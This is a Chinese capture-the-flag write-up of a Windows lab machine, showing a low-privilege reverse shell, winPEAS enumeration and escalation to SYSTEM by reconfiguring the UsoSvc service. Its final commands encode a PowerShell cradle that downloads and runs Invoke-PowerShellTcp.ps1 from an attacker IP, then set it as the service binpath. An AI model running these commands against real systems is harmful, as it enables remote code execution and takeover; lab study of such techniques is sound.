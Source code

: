![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSwBaWlqpb4oNLCiafwjA4LEP1QHB4PzF5WkUV4UA6737ezzrKNjt8Vtw/640?wx_fmt=png)

测试成功的，获得了 icmp 的回包...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSDF6lqKBaLrCeno8frOjtIgxjBZUo42Aib5gpq33GGxPLwY1826r0amQ/640?wx_fmt=png)

利用 nishang 的 ps1 进行提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSMfPoicnAibsCLIjoxASiaULDPnhToODj1N28ZmwK1VtLdT3rBf4AiaJS6A/640?wx_fmt=png)

开启监听模式，开启 web 服务，执行修改后的 EXP，获得了 shell 外壳... 权限是低权用户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSvbvLiblGKZUBXbxLR8TWVKWweNwSQDMaviclUdXNzYjVDEhgGIT0hG5g/640?wx_fmt=png)

通过低权用户获得了 user_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSiciaI0l9PZLMMJA84mqpaTPBHw2ibpQHaFdrYKibrUINHwdcH9cvN65VbQ/640?wx_fmt=png)

需要提权到 system，这里我上传了 winPEAS 进行靶机分析枚举...

发现了很多方法能提权...

![](https://mmbiz.qpic.cn/mmbiz_gif/sDKv42fen7ibImvibcQAzTWKALz80xXATRNaLArXkQdFJlXIoVCNT7P5mhyWCLXiaicY56ibiaTEg2Ir5PQdaiajY4J7A/640?wx_fmt=gif)

方法 1：

UsoSvc 提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSgMiaicAtb1bFPCxFhicCoxhFMVxS5U8ibf1XYicpjgC72T84M5Rm5T83TCw/640?wx_fmt=png)

执行 winPEAS 看到 UsoSvc：ALLAccess，可利用本地特权升级...

给出了黄色字体 URL：

```
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
```

里面介绍了如何利用 UsoSvc 进行提权的 POC...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSSu8IPbvuicSaFvwTZEuXm4Sce4Uk5K8DZWZJIDvD10ibJibtkkV2kHrAA/640?wx_fmt=png)

```
echo "IEX( IWR http://10.10.14.2/Invoke-PowerShellTcp.ps1 -UseBasicParsing)" | iconv -t utf-16le|base64 -w 0
```

查看该 POC，经过测试，无法直接使用 powershell 命令直接执行上传 shell 提权...

需要转换为 base64 值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSxPhTbMglHP1JvTyVV58xqE1rwxibmPiaic1icstmicIMRsgLFpD3IYKhbQg/640?wx_fmt=png)

```
sc.exe config UsoSvc binpath= "cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKAAgAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8ASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwAC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
sc.exe stop UsoSvc
sc.exe start UsoSvc
```
